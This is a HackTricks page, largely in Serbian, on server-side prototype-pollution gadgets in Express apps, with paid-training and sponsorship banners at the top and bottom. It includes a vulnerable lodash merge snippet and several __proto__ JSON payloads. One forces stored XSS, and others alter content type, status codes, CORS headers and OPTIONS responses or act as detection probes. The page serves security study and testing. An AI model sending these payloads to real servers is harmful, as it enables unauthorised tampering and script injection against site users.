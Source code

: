 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Serve XSS responses

**Za više detalja** [**pogledajte originalno istraživanje**](https://portswigger.net/research/server-side-prototype-pollution)

### Promenite JSON content-type u HTML

U Express aplikaciji koja koristi **JSON content type response** i reflektuje JSON:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
U ovim slučajevima XSS obično nije moguć sa JSON tipom sadržaja. Međutim, sa zagađenjem prototipa možemo **zbuniti Express da vrati HTML odgovor.** Ova ranjivost se oslanja na aplikaciju koja koristi **`res.send(obj)`** i koristi parser tela sa tipom sadržaja application/json.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
By **polluting** **`body`** and **`_body`** properties, it's possible to cause **Express to serve up the HTML content type** and reflect the `_body` property, resulting in stored XSS.

### Render UTF7

Moguće je naterati express da **prikazuje UTF-7 sadržaj sa**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Tehnike bezbednog skeniranja

### JSON razmaci

Sledeći PP će dodati dodatni razmak unutar JSON atributa koji neće pokvariti funkcionalnost:
```json
{"__proto__":{"json spaces": " "}}
```
Tada će reflektovani JSON izgledati ovako:
```json
{"foo":  "bar"} -- Note the extra space
```
### Izloženi Headeri

Sledeći PP gadget će naterati server da vrati HTTP header: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Zahteva se da **CORS modul bude instaliran**

### **OPTIONS Metoda**

Sa sledećim payload-om, moguće je **sakriti metodu iz OPTIONS odgovora**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Status**

Moguće je promeniti **vratni status kod** koristeći sledeći PP payload:
```json
{"__proto__":{"status":510}}
```
### Greška

Kada dodelite prototipu primitivnu vrednost kao što je string, to proizvodi **operaciju bez efekta jer prototip mora biti objekat**. Ako pokušate da dodelite objekat prototipa samom `Object.prototype`, to će **izazvati izuzetak**. Možemo koristiti ova dva ponašanja da **otkrijemo da li je zagađenje prototipa bilo uspešno**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

Kada aplikacija uključuje objekat u svoj odgovor, kreiranje atributa sa **neobičnim imenom pored `__proto__`** može biti korisno. Konkretno, ako **samo neobični atribut bude vraćen** u odgovoru, to može ukazivati na ranjivost aplikacije:
```json
{"unusualName":"value","__proto__":"test"}
```
Pored toga, u scenarijima gde se koristi biblioteka kao što je Lodash, postavljanje svojstva kako putem zagađenja prototipa (PP) tako i direktno unutar objekta nudi još jedan dijagnostički pristup. Ako je takvo svojstvo izostavljeno iz odgovora, to sugeriše da Lodash proverava postojanje svojstva u ciljanom objektu pre nego što ga spoji:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Razno

### Dozvoli tačke

Postoji opcija u Express-u koja vam omogućava da **kreirate objekte iz parametara upita**.\
Definitivno je možete koristiti u **lancu** grešaka za iskorišćavanje **ranjivosti zagađenja prototipa**.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` kreira objekat u Node.**

## Reference

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
